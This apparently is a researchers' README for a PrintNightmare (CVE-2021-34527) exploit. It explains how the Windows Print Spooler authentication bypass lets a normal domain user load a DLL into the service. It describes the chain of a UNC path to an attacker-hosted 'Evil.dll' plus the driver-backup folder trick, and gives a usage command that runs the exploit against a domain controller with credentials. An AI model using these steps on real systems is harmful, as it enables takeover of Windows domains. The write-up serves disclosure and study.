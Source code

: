 ## PrintNightmare (CVE-2021-34527): Remote code execution in Windows Spooler Service

 

Ten years ago, an escalation of privilege bug in Windows Printer Spooler was used in Stuxnet, which is a notorious worm that destroyed the nuclear enrichment centrifuges of Iran and infected more than 45000 networks. In the past ten years, spooler still has an endless stream of vulnerabilities disclosed, some of which are not known to the world, however, they are hidden bombs that could lead to disasters. Therefore, we have focused on spooler over the past months and reaped fruitfully.

 

The beginning of the research is PrintDemon from which we get inspiration. After digging into this bug deeper, we found a way to bypass the patch of MS. But just after MS released the new version, we immediately found a new way to exploit it again. After the story of PrintDemon, we realized that spooler is still a good attack surface, although security researchers have hunted for bugs in spooler for more than ten years. We started to explore the inner working of Printer Spooler and discovered some 0-day Bugs in it. Some of them are more powerful than PrintDemon and easier to exploit, and the others can be triggered from remote which could lead to remote code execution.

 

CVE-2021-34527 is a remote code execution in Windows Print Spooler. According to MSRC security bullion, this vulnerability is reported by Zhipeng Huo, Piotr Madej and Zhang Yunhai. 

We also found this bug before and hope to keep it secret to participate Tianfu Cup ☹. As there are some people already published exploit video of CVE-2021-34527. Here we publish our writeup and exploit for CVE-2021-34527. 

 

For more RCE and LPE vulnerabilities in Windows Spooler, please stay tuned and wait our Blackhat talks ‘Diving Into Spooler: Discovering LPE and RCE Vulnerabilities in Windows Printer‘. 

 

 

## RpcAddPrinterDriver

Adding a Printer Driver to a Server (RpcAddPrinterDriver)

Let check the MS-RPRN: Print System Remote Protocol about the RpcAddPrinterDriver call.

To add or update a printer driver ("OEM Printer Driver") to a print server ("CORPSERV"), a client ("TESTCLT") performs the following steps.

1. The client can use the RPC call RpcAddPrinterDriver to add a driver to the print server.

2. The client ensures that the files for the printer driver are in a location accessible to the server. For that purpose, the client can share a local directory containing the files, or use [MS-SMB] to place the files into a directory on the server

3. The client then allocates and populates a DRIVER_INFO_2 structure as follows:

   pName = L"OEM Printer Driver";

   pEnvironment = L"Windows NT x86"; /* Environment the driver is compatible with */

   pDriverPath = "\\\\CORPSERV\\C$\\DRIVERSTAGING\\OEMDRV.DLL";315 / 415

   [MS-RPRN] - v20200826

   Print System Remote Protocol

   Copyright © 2020 Microsoft Corporation

   Release: August 26, 2020

   pDataFile = "\\\\CORPSERV\\C$\\DRIVERSTAGING\\OEMDATA.DLL";

   pConfigFile = "\\\\CORPSERV\\C$\\DRIVERSTAGING\\OEMUI.DLL";

4. The client allocates a DRIVER_CONTAINER driverContainer structure and initializes it to contain the DRIVER_INFO_2 structure.

5. The client calls RpcAddPrinterDriver.

   RpcAddPrinterDriver( L"\\\\CORPSERV", &driverContainer );

 

## CVE-2021-34527 Analysis

Clearly, if an attacker can bypass the authentication of RpcAddPrinterDriver. He could install an malicious driver in the print server. In msdn, the client need SeLoadDriverPrivilege to call the RPC. However, this isn’t true. Let check the authentication logical here:

![img](./img/rootcause.png)

ValidateObjectAccess is a normal security check for Spooler Service. But in line 19 and 20, argument a4 is user controllable. So, a normal user can bypass the security check and add an driver. If you are in the domain, a normal domain user can connect to the Spooler service in the DC and install a driver into the DC. Then he can fully control the Domain.

 

## Exploit

But the real attack is not that simple. To exploit the authentication bypass bug, we need to understand what the Spooler service will do when you calling RpcAddPrinterDriver. Suppose you supply there path to the service

​	pDataFile =A.dll

​	pConfigFile =\\attackerip\\Evil.dll

​	pDriverPath=C.dll

 

It will copy A,B and C into folder C:\Windows\System32\spool\drivers\x64\3\new. And then it will copy them to C:\Windows\System32\spool\drivers\x64\3, and load C:\Windows\System32\spool\drivers\x64\3\A.dll and C:\Windows\System32\spool\drivers\x64\3\C.dll into the Spooler service. However, in the latest version, Spooler will check to make sure that A and C is not a UNC path. But as B can be an UNC path, so we can set pConfigFile as an UNC path (an evildll). This will make our evildll Evil.dll be copied into C:\Windows\System32\spool\drivers\x64\3\ Evil.dll. Then call RpcAddPrinterDriver again, to set pDataFile to be C:\Windows\System32\spool\drivers\x64\3\ Evil.dll. It will load our evil dll. Unfortunate, it does not work. Because if you set A, B, C in the folder C:\Windows\System32\spool\drivers\x64\3\. There will be an access conflict in file copy. To bypass this, we need to use the backup feature of driver upgrade. If we upgrade some driver, the old version will be backup into C:\Windows\System32\spool\drivers\x64\3\old\1\ folder. Then we can bypass the access conflict and success inject our evil.dll into spooler service. 

Successfully load our dll:

 ## Usage



```
.\PrintNightmare.exe dc_ip path_to_exp user_name password

Example:
.\PrintNightmare.exe 192.168.5.129 \\192.168.5.197\test\MyExploit.dll user2 test123##
```

 ![img](./img/Result.png)

 ![img](./img/logfile.png)
Tested on windows sever 2019 1809 17763.1518




## Impact

This vulnerability can be used to achieve LPE and RCE. As for the RCE part, you need a user to authenticated on the Spooler service. However, this is still critical in Domain environment. Because normally DC will have Spooler service enable, a compromised domain user may use this vulnerability to control the DC.

 

Here are more hidden bombs in Spooler, which is not public known. We will share more RCE and LPE vulnerabilities in Windows Spooler, please stay tuned and wait our Blackhat talks ‘Diving Into Spooler: Discovering LPE and RCE Vulnerabilities in Windows Printer‘. 

 

## Credit

Zhiniang Peng (@edwardzpeng) & Xuefeng Li (@lxf02942370)
